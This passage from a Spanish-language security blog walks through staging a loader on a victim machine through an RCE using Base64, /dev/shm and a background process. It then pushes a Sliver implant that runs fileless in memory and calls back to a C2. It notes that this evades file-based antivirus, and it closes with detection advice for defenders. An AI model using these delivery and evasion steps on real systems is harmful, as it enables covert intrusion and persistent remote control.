Enviamos el *loader* codificado en formato Base64 y lo ejecutamos en la máquina objetivo a través de la vulnerabilidad RCE. El *loader* quedará a la escucha en segundo plano en el puerto `4444`.

```bash
# Se codifica el loader en Base64 y se copia en la clipboard (Máquina atacante)
base64 -w 0 <loader> | xclip -selection clipboard

# Se almacena descodificado el loader en el destino (Máquina víctima)
echo '<Base64>' | base64 -d > /dev/shm/fl

# Se le otorga permisos de ejecución (Máquina víctima)
chmod +x /dev/shm/fl

# Se ejecuta el loader en segundo plano (Máquina víctima)
./fl &
```

Aunque el motor de detección del sistema de seguridad escanee el *loader* al crearse, no encontrará ninguna firma ofensiva. 

### Ejecución del implante de Sliver

Desde la máquina atacante, enviamos el implante al *loader*.

```bash
# Máquina atacante
python3 sender.py <implant_path>
```



El *loader* recibe el implante, lo almacena en un fichero anónimo en memoria y lo ejecuta. El implante, por su parte, inicia su ejecución y establece la conexión mTLS cifrada de vuelta al C2.



El resultado es un canal C2 completamente operativo con toda la capacidad que ofrece Sliver. El implante, en ningún momento, ha existido como fichero en el sistema de archivos.

## Detección

**Las soluciones de seguridad basadas en el análisis estático del sistema de ficheros resultan ineficaces frente a esta técnica**. El loader, al no incorporar ninguna carga ofensiva, no presenta firmas ni patrones que puedan ser correlacionados con actividad maliciosa conocida. El binario, por su parte, nunca llega a estar en disco, por lo que no existe superficie sobre la que identificar la actividad maliciosa.
**La identificación de esta técnica requiere un cambio de enfoque hacia la monitorización del comportamiento en tiempo de ejecución**. Las principales vías de detección pasan por la identificación de procesos activos que carezcan de un ejecutable asociado en el sistema de archivos, la monitorización de conexiones de red hacia sistemas ajenos a la organización o la detección de patrones que se desvíen del comportamiento esperado para un proceso o usuario.

!!! info ""
    Cabe destacar que algunas soluciones de seguridad modernas **ya incorporan capacidades de detección orientadas a identificar las primitivas empleadas por este tipo de loaders**, como la creación de ficheros anónimos en memoria con permiso de ejecución. La eficacia de estas detecciones varía en función del producto y de su configuración.

## Agradecimientos

Gracias por llegar hasta aquí.

Si encuentras errores o quieres mejorar/ampliar el artículo, el contenido del blog está abierto a Pull Requests. Toda contribución es bienvenida.

¡Nos vemos en el próximo artículo! ;)